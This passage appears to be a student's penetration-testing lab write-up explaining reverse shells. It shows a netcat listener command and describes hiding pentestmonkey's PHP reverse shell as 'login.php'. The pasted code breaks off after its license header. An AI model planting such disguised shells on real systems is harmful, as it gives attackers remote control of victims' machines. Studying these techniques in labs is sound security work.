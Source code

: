 Worked.

Next the reverse shell which i have used before in one machine.   
*This is where the teacher says, "You have to know what you are doing, so you should explain the Reverse Shell"*    
**I gotchu!**   
A reverse shell is a type of shell in which the target machine communicates back to the attacker's machine. 
- The attacker sets up a listener on their machine and then sends a payload to the target machine, which when executed, establishes a connection to the attacker's machine. Then the attacker has the ability to execute commands on the victims machine remotely.

- They are used to gain access to a target machine and maintain persistence, as they allow the attacker to bypass firewalls and other security measures that might be in place. They can also be used to ex-filtrate data from the target machine.

Sources:
Niko Heiskanen [Himself](https://heiskanen.rocks/)   
[Many of IppSec's videos](https://www.youtube.com/@ippsec/search?query=reverse%20shell)   
["Reverse Shell Cheat Sheet" by Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)   

The one i needed to make a whole `.php` site.   
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Attack machine, connection listener:   
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
```

nc parameters used:   
```bash
#nc
-n		Suppress name/port resolutions
-l		Listen mode, for inbound connects
-v		Verbose
-p port	Specify local port for remote connects # 9002 in this case
```

As i consider myself sneaky, i created `login.php` and pasted the code with my ip and port that is listening in my Attack machine.   

The reverse shell code:
```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
```
